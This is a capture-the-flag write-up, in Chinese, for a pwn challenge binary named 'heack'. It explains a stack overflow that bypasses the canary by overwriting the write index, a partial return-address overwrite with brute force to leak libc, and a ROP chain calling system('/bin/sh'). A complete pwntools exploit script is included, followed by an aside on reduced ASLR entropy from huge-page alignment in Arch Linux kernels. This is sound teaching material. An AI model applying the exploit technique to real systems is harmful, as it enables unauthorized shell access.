


# heack

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

程序里有一个很明显的栈溢出在`fight_dragon`中，但是没有信息，无法直接溢出；
而且返回以后直接`exit(0)`了，我们必须覆写返回地址。



观察到`game`函数里有许多`printf("%lu", ...)`形式的调用，而在我们返回时，
rsi正好是`_IO_2_1_stdout_+131`，那么只要我们能跳转到那里，就能泄露libc，
从而实现构造rop链。注意到在溢出时是一个一个字节写入的，而索引放在比缓冲区高的地方，
因此只需要将索引覆盖为返回地址的偏移，我们就可以直接操作返回地址而跳过canary。

> [!NOTE]
> 原来为了避免爆破，选择跳转到`printf("Data: %d\n", ...)`泄露libc，没想到由于`%d`
> 只能泄露32位，我们仍然需要爆8位（**0x7f??** 或者12位 **0x7???** ，取决于内核选项），
> 相比其跳转到有`%lu`的地方，反而白白地增添了爆破的时间，有点得不偿失了说是。

通过爆破4位，我们可以跳转到上述的地方，然后再构造`system("/bin/sh")`就可以开shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heack'

def payload(lo: int) -> int:
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.34.119', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    def game_arbwrite(chain: bytes):
        t.sendlineafter(b'=== Hero', b'1')
        t.sendlineafter(b'[Battle]', p8(0x17).rjust(0x104, b'\0') + chain)

    # jump to printf("[HP]: %lu\n", $rsi);
    # brute force 1 byte to get libc (printing _IO_2_1_stdout_ + 131)
    low16 = ( (0x39 if not lo & 2 else int(input('??63 ? '), 0)) << 8) | 0x63
    game_arbwrite(p16(low16))

    try:
        t.recvuntil(b'[HP]: ') # if not right, this triggers EOFError
    except EOFError:
        t.close()
        return 0
    libc_base = int(t.recvline()) - 131 - libc.symbols['_IO_2_1_stdout_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address

    game_arbwrite(flat(ret, # balance stack to perform system
                       rdi, next(libc.search(b'/bin/sh')), libc.symbols['system'],
                       rdi, 0, libc.symbols['exit']))

    t.clean(0.5)
    t.interactive()
    t.close()
    return 1
```



## 题外话：丢失的9位ASLR

在和 *hkbin* 聊爆破几位的时候，猛然发现原来Arch是需要爆12位的，结果现在又变回了8位，
blame一下`core/linux`的config记录，发现这个安全措施是在[去年的commit](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)中引入的，
然后到了[一个月前](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)又把这个操作回滚了，
有个[专门的issue](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)讨论这个事，
基本上意思就是遵循上游的原始设定，因为这个选项是开在 *CONFIG_EXPERT* 一节的，
很多开发者会按照默认配置写代码，然后就出现了libasan段错误的情况，因此就选择回滚默认配置了。
如果为了安全，可以选择`linux_hardened`。

issue中还提到了一个[有意思的东西](https://blog.zolutal.io/aslrnt/)，
就是我们打比赛的时候，有时候泄露libc会发现，不只是最后12位是0，而是最后21位都是0。
这其实是因为一些内核的优化，像libc这样超过2MiB的文件，在映射到内存中时，就会使用
**Huge Page**，导致需要使用21位的对齐，而非常规页的12位对齐，这直接导致了9位ASLR的丢失。
作为补偿，有些发行版设置了32位的mmap随机化，通过增加8位随机来对抗这一特性，
然而Arch竟然回到了28位随机化的默认配置，让人有点匪夷所思。

## 参考

1. [6.7.arch3-1 (3904bcb3) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)
2. [6.14.7.arch2-1 (854d0660) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)
3. [6.14.7.arch2-1: reduced ASLR entropy in CONFIG_ARCH_MMAP_RND_BITS/CONFIG_ARCH_MMAP_RND_COMPAT_BITS? Issues#141](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)
4. [ASLRn’t: How memory alignment broke library ASLR](https://blog.zolutal.io/aslrnt/)
